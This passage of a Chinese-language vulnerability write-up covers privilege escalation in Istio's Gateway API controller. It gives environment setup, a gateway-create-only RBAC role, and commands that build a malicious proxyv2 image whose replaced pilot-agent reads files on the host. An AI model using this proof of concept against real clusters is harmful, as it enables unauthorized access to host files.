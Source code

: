 ```yaml
```

## 漏洞利用

掌握了漏洞利用链路上的细节，我们就可以理出整个思路，创建精心构造过注解的 Gateway 资源及恶意的 proxyv2 镜像，“迷惑” 控制器创建非预期的 pod 完成对 Host 主机上的敏感文件进行访问， 如 docker unix socket。

**漏洞环境:**

istio v1.12.2  
kubernetes v1.20.14  
kubernetes gateway-api v0.4.0  
用下面的命令创建一个 write-only 的 角色，并初始化 istio

```bash
curl -L https://istio.io/downloadIstio | ISTIO_VERSION=1.12.2 TARGET_ARCH=x86_64 sh -
istioctl x precheck
istioctl install --set profile=demo -y
kubectl create namespace istio-ingress
kubectl create -f - << EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: gateways-only-create
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: test-gateways-only-create
subjects:
- kind: User
  name: test
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: gateways-only-create
  apiGroup: rbac.authorization.k8s.io
EOF
```

在利用漏洞之前，我们需要先制作一个恶意的 docker 镜像，我这里直接选择了 proxyv2 镜像作为目标镜像，替换其中的 `/usr/local/bin/pilot-agent` 为 bash 脚本，在 tag 一下 push 到本地的 registry 或者 [docker.io](http://docker.io/) 都可以。

```bash
docker run -it  --entrypoint /bin/sh istio/proxyv2:1.12.1
cp /usr/local/bin/pilot-agent /usr/local/bin/pilot-agent-orig
cat << EOF > /usr/local/bin/pilot-agent
#!/bin/bash

echo $1
if [ $1 != "istio-iptables" ]
then
    touch /tmp/test/pwned
    ls -lha /tmp/test/*
    cat /tmp/test/*
fi

/usr/local/bin/pilot-agent-orig $*
EOF
chmod +x /usr/local/bin/pilot-agent
exit
docker tag 0e87xxxxcc5c xxxx/proxyv2:malicious
```